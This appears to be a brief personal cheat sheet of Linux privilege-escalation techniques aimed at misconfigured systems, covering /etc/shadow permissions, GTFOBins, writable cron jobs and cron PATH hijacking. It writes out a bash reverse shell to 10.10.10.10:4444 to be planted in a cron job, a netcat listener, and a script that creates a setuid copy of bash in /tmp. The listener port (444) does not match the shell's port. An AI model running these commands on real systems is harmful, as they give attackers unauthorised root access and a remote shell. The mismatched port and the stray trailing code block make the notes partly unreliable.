 # linux misconfigs

### weak file perms - /etc/shadow

check if `/etc/shadow` is readable or writeable

### shell escape sequences

https://gtfobins.github.io/

### cron jobs - file permissions

make sure cron job is writeable

edit a cron job:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

do this on kali:

```bash
nc -nvlp 444
```

### cron jobs - PATH environment variable

check if easy directories are located in cron job env variable

create a file in that easy directory:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

make sure file is executable

```bash
chmod +x /path/to/file.sh
```

wait for cron job to happen

```bash
/
```

